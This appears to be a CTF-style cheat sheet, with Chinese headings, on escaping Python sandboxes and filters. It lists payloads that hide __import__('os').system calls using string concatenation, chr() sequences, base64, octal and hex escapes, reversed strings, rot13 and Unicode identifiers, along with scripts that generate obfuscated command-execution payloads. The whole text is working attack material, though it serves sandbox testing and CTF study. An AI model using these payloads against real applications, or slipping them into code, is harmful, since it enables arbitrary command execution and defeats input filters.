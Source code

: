 ### bypass

```python
#字符串拼接
'sys'+'tem' => 'system'
'__imp'+'ort__' => '__import__'
''.join(['__imp','ort__']) => '__import__'
dir()[0] => '_'
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)) => __import__("os")
bytes([46, 47, 102, 108, 97, 103]).decode() => './flag'

#编码绕过
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
'X19pbXBvcnRfXw=='.decode('base64')  => '__import__'
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system('calc')


#进制转换
八进制：
exec("print('RCE'); __import__('os').system('ls')")
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
exp：
s = "eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False])"
octal_string = "".join([f"\\{oct(ord(c))[2:]}" for c in s])
print(octal_string)


十六进制：
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
exp:
s = "eval(eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False]))"
octal_string = "".join([f"\\x{hex(ord(c))[2:]}" for c in s])
print(octal_string)


#逆序绕过
'__tropmi__'[::-1] => '__import__'
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])
kali
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
kali

'__buihf9ns__'.replace('hf9','ldi') => '__buildins__'


import codecs
getattr(os,codecs.encode("flfgrz",'rot13'))('ifconfig')

#unicode字符 / Non-ASCII Identifies
# 𝟎𝟏𝟐𝟑𝟒𝟓𝟔𝟕𝟖𝟗𝐚𝐛𝐜𝐝𝐞𝐟𝐠𝐡𝐢𝐣𝐤𝐥𝐦𝐧𝐨𝐩𝐪𝐫𝐬𝐭𝐮𝐯𝐰𝐱𝐲𝐳
# 𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡𝕒𝕓𝕔𝕕𝕖𝕗𝕘𝕙𝕚𝕛𝕜𝕝𝕞𝕟𝕠𝕡𝕢𝕣𝕤𝕥𝕦𝕧𝕨𝕩𝕪𝕫
```